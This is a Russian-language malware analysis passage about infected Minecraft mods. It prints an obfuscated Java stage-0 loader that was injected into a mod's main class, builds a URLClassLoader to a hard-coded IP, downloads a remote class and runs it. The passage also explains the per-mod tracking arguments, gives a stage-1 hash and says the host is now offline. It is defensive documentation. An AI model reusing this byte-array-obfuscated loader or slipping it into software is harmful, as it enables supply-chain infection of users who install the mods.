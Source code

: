 Код метода обфусцирован (обезличен и запутан) с помощью `new String(new byte[]{...})` вместо строковых литералов.

Из образца от D3SL «Create Infernal Expansion Plus», версия подражающая «Create Infernal Expansion Compat», со вставленным вредоносным кодом в основной класс мода:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Это:
1. Создаёт `URLClassLoader` с URL'ом `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Загружает класс `Utility` из classloader'а, грузит код из интернета
3. Вызывает метод `run` у `Utility`, передача строкового аргумента, отличающегося для каждого зараженного мода (!). Например:
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`-114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"

Передаваемые числа парсятся как байты 1-ой ступенью и записываются в файл с именем «.ref». Судя по всему, они позволяют автору отслеживать источники заражения.

Создание загрузчика классов жестко привязано к этому URL-адресу и не использует URL-адрес Cloudflare, используемый 1-ой ступенью. Поскольку этот IP-адрес теперь отключен, значит, полезная нагрузка 0-ой ступени, *о которой мы на данный момент знаем*, больше не работает.

## Ступень 1 (`dl.jar`)

SHA-1: `dc43c4685c3f47808ac207d1667cc1eb915b2d82`
